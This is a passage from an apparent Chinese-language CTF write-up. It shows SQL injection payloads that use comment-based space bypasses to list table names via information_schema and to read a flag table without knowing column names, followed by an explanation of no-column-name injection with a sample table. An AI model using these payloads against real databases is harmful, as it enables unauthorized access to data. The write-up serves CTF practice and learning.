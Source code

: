 查表名

```sql
-1"union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/database()),3"

# tables==========>f1agdas,users
```

无列名查询(其实直接查就好，本人复习一下之前的知识)

```sql
-1"union/**/select/**/1,(select/**/`2`/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/f1agdas/**/limit/**/1,1)a),3"


# data==========>flag.txt
```



---

#### 无列名查询

例如join进行无列名注入，现在有张表`table`如下

| id   | username | password | question | token |
| ---- | -------- | -------- | -------- | ----- |
| 1    | 1a       | 1b       | 1c       | 1d    |
| 2    | 2a       | 2b       | 2c       | 2d    |
| 3    | 3a       | 3b       | 3c       | 3d    |

正常**在数据库查询**，表名需带反引号，在php端中**并不需要**

```sql
select * from table;
```

![table](mardasctf/image-20210329195606802.png)
